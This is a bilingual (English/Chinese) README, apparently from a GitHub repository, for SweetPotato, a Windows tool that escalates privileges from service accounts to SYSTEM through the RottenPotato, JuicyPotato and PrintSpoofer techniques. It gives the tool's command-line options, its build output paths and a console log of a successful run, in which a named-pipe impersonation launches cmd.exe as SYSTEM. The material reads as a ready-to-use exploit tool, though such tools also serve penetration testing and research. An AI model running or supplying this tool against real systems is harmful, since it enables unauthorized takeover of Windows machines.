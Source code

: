 # SweetPotato 
### A collection of various native Windows privilege escalation techniques from service accounts to SYSTEM

```
SweetPotato by @_EthicalChaos_

Orignal RottenPotato code and exploit by @foxglovesec
  
Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
  
PrintSpoofer discovery and original exploit by @itm4n
  
  -c, --clsid=VALUE          CLSID (default BITS: 4991D34B-80A1-4291-83B6-
                               3328366B9097)
  -m, --method=VALUE         Auto,User,Thread (default Auto)
  -p, --prog=VALUE           Program to launch (default cmd.exe)
  -a, --args=VALUE           Arguments for program (default null)
  -e, --exploit=VALUE        Exploit mode [DCOM|WinRM|PrintSpoofer(default)]
  -l, --listenPort=VALUE     COM server listen port (default 6666)
  -h, --help                 Display this help
```

# 甜土豆🥔

### 从`service accounts` 服务帐户到`SYSTEM`的各种本机Windows特权升级技术的集合

```
@foxglovesec的Orignal 烂土豆RottenPotato代码和利用
@decoder_it和@Guitro通过BITS WinRM发现武器化的 多汁JuciyPotato
@itm4n的PrintSpoofer发现和原始利用
```

![](./images/build.png)


`SweetPotato-CCob\NtApiDotNet\bin\Release\NtApiDotNet.dll`

`SweetPotato-CCob\bin\Release\SweetPotato.exe`


![](./CCob.png)

```
C:\Users\Administrator\Desktop>SweetPotato.exe

SweetPotato by @_EthicalChaos_

Orignal RottenPotato code and exploit by @foxglovesec

Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery

PrintSpoofer discovery and original exploit by @itm4n

[+] Attempting NP impersonation using method PrintSpoofer to launch c:\Windows\System32\cmd.exe
[+] Triggering notification on evil PIPE \\IIS85-CN/pipe/e5ebfae5-578d-498a-b870-7641254c8393
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

C:\Users\Administrator\Desktop>

```
